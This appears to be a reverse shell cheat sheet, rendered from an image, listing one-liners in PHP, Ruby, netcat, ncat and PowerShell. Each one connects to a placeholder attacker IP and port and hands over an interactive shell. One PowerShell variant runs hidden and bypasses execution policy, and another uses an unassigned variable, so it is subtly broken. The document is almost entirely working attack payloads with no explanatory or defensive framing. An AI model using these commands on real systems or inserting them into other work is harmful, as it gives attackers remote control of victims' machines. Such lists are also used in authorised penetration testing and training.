 ══════════════════════════════════════════════════════════════════════════════════════════════════════════════════════════════════

╔PHP═══════════════════════════════════════════════════════════════════════
║ php -r '$sock=fsockopen("[IP]",[PORT]);exec("/bin/sh -i <&3 >&3 2>&3");'
╚══════════════════════════════════════════════════════════════════════════


╔RUBY═════════════════════════════════════════════════════════════════════════════════════════════════════════════════════════════
║ ruby -rsocket -e'f=TCPSocket.open("[IP]",[PORT]).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'                       
║═════════════════════════════════════════════════════════════════════════════════════════════════════════════════════════════════
║ ruby -rsocket -e 'exit if fork;c=TCPSocket.new("[IP]","[PORT]");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'   
║══════════════╦══════════════════════════════════════════════════════════════════════════════════════════════════════════════════
║ Windows only ║ ruby -rsocket -e 'c=TCPSocket.new("[IP]","[PORT]");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'  
╚══════════════╩══════════════════════════════════════════════════════════════════════════════════════════════════════════════════


╔Netcat Traditional══════════
║ nc -e /bin/sh [IP] [PORT] 
╚════════════════════════════


╔Netcat OpenBsd══════════════════════════════════════════════════════════════
║ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [IP] [PORT] >/tmp/f	
╚════════════════════════════════════════════════════════════════════════════


╔NCAT═══════════════════════════════════
║ ncat [IP] [PORT] -e /bin/bash		     
║═══════════════════════════════════════
║ ncat --udp [IP] [PORT] -e /bin/bash  
╚═══════════════════════════════════════


╔POWERSHELL═════════════════════════════════════════════════════════════════════════════════════════════════════════════════════════
║ powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("[IP]",[PORT]);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()  

╔═══════════════════════════════════════════════════════════════════════════════════════════════════════════════════════════════════		
║ powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('[IP]',[PORT]);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
